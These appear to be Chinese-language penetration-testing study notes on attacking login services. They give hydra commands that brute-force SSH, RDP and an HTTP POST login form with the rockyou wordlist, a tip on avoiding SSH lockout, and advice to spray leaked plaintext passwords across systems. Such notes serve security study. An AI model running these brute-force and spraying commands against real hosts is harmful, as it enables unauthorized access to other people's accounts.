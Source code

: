 # 用户登录服务攻击

## [[Linux中利用高权限应用提权#^f1bff2|爆破 ssh]] 和 [[Windows中劫持服务提权#^db8a4c|rdp 服务]]
解压 rockyou 文件
`gzip -d rockyou.txt.gz`
爆破 ssh
`hydra -l admin -P /usr/share/wordlist/rockyou.txt ssh://192.168.2.200 -t 4`
一般使用-t 4，进行 4 次连接后等待一段时间后再次连接，避免 ssh 锁定主机
爆破 rdp
`hydra -l admin -P ./rockyou.txt rdp://192.168.2.200`
一般爆破 rdp 的 3389 端口，如果其他端口可以指定
我们用在数据库泄漏中发现的密码标识了两个用户名。我们应该一直尝试利用我们发现的每个明文密码，将它们喷洒到目标系统中。这可能会暴露出在多个系统中使用相同密码的用户。



## 爆破 [[HTTP 头|HTTP POST 表单]]
爆破 POST 登录
`hydra -l user -P /rockyou.txt 192.168.2.20 http-post-form "/index.php:user=user&pass=^PASS^:Login failed.Invalid"`

  